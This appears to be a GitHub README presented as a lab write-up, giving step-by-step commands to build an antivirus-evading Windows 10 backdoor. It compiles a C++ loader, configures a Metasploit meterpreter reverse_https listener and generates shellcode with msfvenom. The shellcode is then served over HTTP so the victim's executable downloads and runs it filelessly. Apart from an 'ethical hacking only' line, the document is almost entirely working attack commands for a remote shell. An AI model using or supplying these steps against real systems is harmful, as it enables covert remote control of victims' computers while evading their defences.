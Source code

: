 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only.

In this example we will use a Kali Linux 2023.2 and Windows 10

Tools used:
   - OpenSSL To create the certificate
   - msfconsole to create the listener ( receive the comunication from the windows machine )
   - msfvenom to create the payload file
   - python to create the http server ( to deliver the payload )
   - c++ to create the windows .exe  ( the backdoor.cpp )

To code the c++ backdoor.cpp i used part of the code developed by TheD1rkMtr and customized for my objective.
https://github.com/TheD1rkMtr/Shellcode-Hide/tree/main

Used code from the Simple Code that is detected by Windows defender and Antivirus, and mized with the Fileless shell code, to download the payload using SSL so that all comes encrypted and not detected.




Windows 10 Backdoor Creation

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
      
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listener

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload deliver (important to do this in the same folder the payload was created)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) "backDoorTest.exe"
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File ) 
 
